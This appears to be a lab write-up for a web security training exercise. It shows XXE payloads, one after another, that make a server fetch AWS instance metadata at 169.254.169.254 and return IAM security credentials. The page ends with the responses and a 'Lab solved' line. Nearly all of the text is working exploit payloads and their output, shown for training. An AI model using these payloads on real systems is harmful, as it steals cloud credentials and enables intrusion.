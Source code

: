 request for "latest" folder:
```xml
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/"> ]>
```
response: 
"Invalid product ID: meta-data"

request for "meta-data" folder:
```xml
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data"> ]>
```
response: 
"Invalid product ID: iam"

request for "iam" folder:
```xml
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
```
response: 
"Invalid product ID: security-credentials"

request for "security-credentials" folder:
```xml
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data/security-credentials"> ]>
```
response:
```
"Invalid product ID: admin"
```

request for "admin" folder:
```xml
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/latest/meta-data/security-credentials/admin"> ]>
```
response: 
```
HTTP/1.1 400 Bad Request

"Invalid product ID: 
{
"Code" : "Success",
"LastUpdated" : "2022-06-14T19:32:05.404485039Z",
"Type" : "AWS-HMAC",
"AccessKeyId" : "DyhKrjoWZ3sc7baHwQOz",
"SecretAccessKey" : "wybIAzOjsBIjJfZobUvkIe3stXf96BH9IZnMEMKH",
"Token" : "y03qB1O1t6Ecx67K3Rtf41tbLLn3jVU4T82HCHLUUNueNHNRw4jbLTV7qoVOFDSa2Dg5oy0q04etSvN5eEFbSZPpgjCpYKMqugmv0n8cu5JVm0CdBD0sFwihUG0AharGqkz6KxZSkwAMlkGVHkjYUEsrGUkLgksBLqVcK0UmAtUgbXMmj5rWYenmFLJy8pb3En1fHmOyZXJanvzvfiIwZTzm3dqlb3CdfZrK4Ox2KliLpSMsr5iOSvgOQA2erVK7",
"Expiration" : "2028-06-12T19:32:05.404485039Z"
}
"
```
# Lab solved
